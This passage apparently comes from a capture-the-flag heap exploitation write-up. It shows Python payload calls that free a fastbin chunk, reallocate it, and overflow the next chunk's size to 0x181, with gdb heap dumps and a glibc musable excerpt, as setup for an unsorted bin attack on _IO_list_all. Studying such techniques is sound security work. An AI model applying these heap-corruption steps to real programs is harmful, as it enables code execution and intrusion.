 Now, we'll free `chunk x` and request it back but this time we will cause an overflow to `chunk y`.

```python
# Free fast chunk
free(acc, key, 0)
```

```
(0x20)     fastbin[0]: 0x603000 --> 0x0
(0x30)     fastbin[1]: 0x0
(0x40)     fastbin[2]: 0x0
(0x50)     fastbin[3]: 0x0
(0x60)     fastbin[4]: 0x0
(0x70)     fastbin[5]: 0x0
(0x80)     fastbin[6]: 0x0
                  top: 0x603210 (size : 0x20df0) 
       last_remainder: 0x6030b0 (size : 0x20) 
            unsortbin: 0x6030b0 (size : 0x20)
```

```python
# Get back the same fast chunk & 
# overwrite next chunk's size field
alloc(-10,  'F'*0x18 + p32(0x181), 'D'*8)  # 0
```

```
0x603000:	0x0000000000000000	0x0000000000000021 <-- chunk x back at it
0x603010:	0x4646464646464646	0x4646464646464646
0x603020:	0x4646464646464646	0x0000000000000181 <-- chunk y size overflow
0x603030:	0x4545454545454545	0x00007ffff7dd1c00
0x603040:	0x0000000000000000	0x0000000000000000
0x603050:	0x4545454545454545	0x0000000000000000
0x603060:	0x0000000000000000	0x0000000000000000
0x603070:	0x0000000000000000	0x0000000000000000
0x603080:	0x0000000000000000	0x0000000000000000
0x603090:	0x0000000000000000	0x0000000000000000
0x6030a0:	0x0000000000000000	0x0000000000000000
0x6030b0:	0x0000000000000000	0x0000000000000021 <-- unsorted chunk
0x6030c0:	0x00007ffff7dd1b78	0x00007ffff7dd1b78
0x6030d0:	0x0000000000000020	0x0000000000000090 <-- chunk 1
```

We have successfully ovewritten `chunk y`'s size with the value **0x181**. This size is big enough to overwrite the unsorted chunk
at address `0x6030b0` and furthermore overwrite its BK pointer in order to perform the unsorted bin attack.
  
### Unsorted bin 2 _IO_list_all attack

If we were to call edit on `chunk y`, `musable` wouldn't let us enter any bytes because of the `inuse(p)` check which would
let `musable` know that the chunk is actually free'd.

```c
static size_t
musable(void* mem)
{
  mchunkptr p;
  if (mem != 0) {
    p = mem2chunk(mem);
    if (chunk_is_mmapped(p))
      return chunksize(p) - 2*SIZE_SZ;
    else if (inuse(p))
      return chunksize(p) - SIZE_SZ;
  }
  return 0;
}
```